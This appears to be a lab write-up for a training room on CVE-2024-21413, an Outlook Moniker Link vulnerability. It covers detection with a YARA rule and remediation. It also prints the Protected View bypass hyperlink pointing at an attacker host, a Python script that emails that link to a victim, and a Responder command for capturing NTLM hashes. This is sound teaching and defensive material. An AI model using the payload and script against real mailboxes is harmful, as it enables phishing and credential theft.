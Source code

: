 # Moniker Link (CVE-2024-21413)
![image](https://github.com/user-attachments/assets/e5cc39df-8999-4bb7-bb1a-69917a70e094)
## Intro
On February 13th, 2024, Microsoft announced a Microsoft Outlook RCE & credential leak vulnerability with the assigned CVE of CVE-2024-21413 (Moniker Link). Haifei Li of Check Point Research is credited with discovering the vulnerability.

The vulnerability bypasses Outlook's security mechanisms when handing a specific type of hyperlink known as a Moniker Link. An attacker can abuse this by sending an email that contains a malicious Moniker Link to a victim, resulting in Outlook sending the user's NTLM credentials to the attacker once the hyperlink is clicked.

Details relating to the scoring of the vulnerability have been provided in the table below:
CVSS	Description
Publish date	February 13th, 2024
MS article	https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2024-21413
Impact	Remote Code Execution & Credential Leak
Severity	Critical
Attack Complexity	Low
Scoring	9.8

The vulnerability is known to affect the following Office releases:
Release	Version
Microsoft Office LTSC 2021	affected from 19.0.0
Microsoft 365 Apps for Enterprise
	affected from 16.0.1
Microsoft Office 2019
	affected from 16.0.1
Microsoft Office 2016
	affected from 16.0.0 before 16.0.5435.1001
 
## Moniker Link (CVE-2024-21413)
Outlook can render emails as HTML. You may notice this being used by your favourite newsletters. Additionally, Outlook can parse hyperlinks such as HTTP and HTTPS. However, it can also open URLs specifying applications known as Moniker Links. Normally, Outlook will prompt a security warning when external applications are triggered.

Outlooks Protected View is triggered when launching an external application

This pop-up is a result of Outlook's "Protected View". Protected View opens emails containing attachments, hyperlinks and similar content in read-only mode, blocking things such as macros (especially from outside an organisation). 

By using the file:// Moniker Link in our hyperlink, we can instruct Outlook to attempt to access a file, such as a file on a network share (<a href="file://ATTACKER_IP/test">Click me</a>). The SMB protocol is used, which involves using local credentials for authentication. However, Outlook's "Protected View" catches and blocks this attempt.

<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>

The vulnerability here exists by modifying our hyperlink to include the ! special character and some text in our Moniker Link which results in bypassing Outlook’s Protected View. For example: <a href="file://ATTACKER_IP/test!exploit">Click me</a>.

<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

We, as attackers, can provide a Moniker Link of this nature for the attack. Note the share does not need to exist on the remote device, as an authentication attempt will be attempted regardless, leading to the victim's Windows netNTLMv2 hash being sent to the attacker.

Remote Code Execution (RCE) is possible because Moniker Links uses the Component Object Model (COM) on Windows. However, explaining this is currently out of scope for this room, as there is no publicly released proof of concept for achieving RCE via this specific CVE.

## Exploitation
https://github.com/CMNatic/CVE-2024-21413
```
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.0 | 19/02/2024
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('MAILSERVER', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\n Email delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```
The PoC:

    Takes an attacker & victim email. Normally, you would need to use your own SMTP server (this has already been provided for you in this room)
    Requires the password to authenticate. For this room, the password for attacker@monikerlink.thm is attacker
    Contains the email content (html_content), which contains our Moniker Link as a HTML hyperlink
    Then, fill in the "subject", "from" and "to" fields in the email
    Finally, it sends the email to the mail server

  ### Responder
    responder -I ens5
  ^^^run on attacker machine

 ## Detection
 - YARA rule

```
rule EXPL_CVE_2024_21413_Microsoft_Outlook_RCE_Feb24 {

   meta:

      description = "Detects emails that contain signs of a method to exploit CVE-2024-21413 in Microsoft Outlook"

      author = "X__Junior, Florian Roth"

      reference = "https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability/"

      date = "2024-02-17"

      modified = "2024-02-19"

      score = 75

   strings:

      $a1 = "Subject: "

      $a2 = "Received: "



      $xr1 = /file:\/\/\/\\\\[^"']{6,600}\.(docx|txt|pdf|xlsx|pptx|odt|etc|jpg|png|gif|bmp|tiff|svg|mp4|avi|mov|wmv|flv|mkv|mp3|wav|aac|flac|ogg|wma|exe|msi|bat|cmd|ps1|zip|rar|7z|targz|iso|dll|sys|ini|cfg|reg|html|css|java|py|c|cpp|db|sql|mdb|accdb|sqlite|eml|pst|ost|mbox|htm|php|asp|jsp|xml|ttf|otf|woff|woff2|rtf|chm|hta|js|lnk|vbe|vbs|wsf|xls|xlsm|xltm|xlt|doc|docm|dot|dotm)!/

   condition:

      filesize < 1000KB

      and all of ($a*)

      and 1 of ($xr*)

}
```
 - Wireshark
   - Additionally, the SMB request from the victim to the client can be seen in a packet capture with a truncated netNTLMv2 hash.

## Remediation

Microsoft has included patches to resolve this vulnerability in February’s “patch Tuesday” release. You can see a list of KB articles by Office build here. Updating Office through Windows Update or the Microsoft Update Catalog is strongly recommended.

Additionally, in the meantime, it is a timely reminder to practice general - safe - cyber security practices. For example, reminding users to:

    Do not click random links (especially from unsolicited emails)
    Preview links before clicking them
    Forward suspicious emails to the respective department responsible for cyber security

Since this vulnerability bypasses Outlook's Protected View, there is no way to reconfigure Outlook to prevent this attack. Additionally, preventing the SMB protocol entirely may do more harm than good, especially as it is essential for accessing network shares. However, you may be able to block this at the firewall level, depending on the organisation.

## FIN

Congrats! That was fun. As we know, Outlook is an extremely popular email client. The CVE is known to affect a large portion of the Office suite, and given its extremely low attack complexity, it's quite a spicy one.

Remember, it is essential to update Outlook through Windows Update or the Microsoft Update Catalog as soon as possible, as there is no way to prevent Outlook's "Protected View" from being bypassed.

I hope you enjoyed the room!
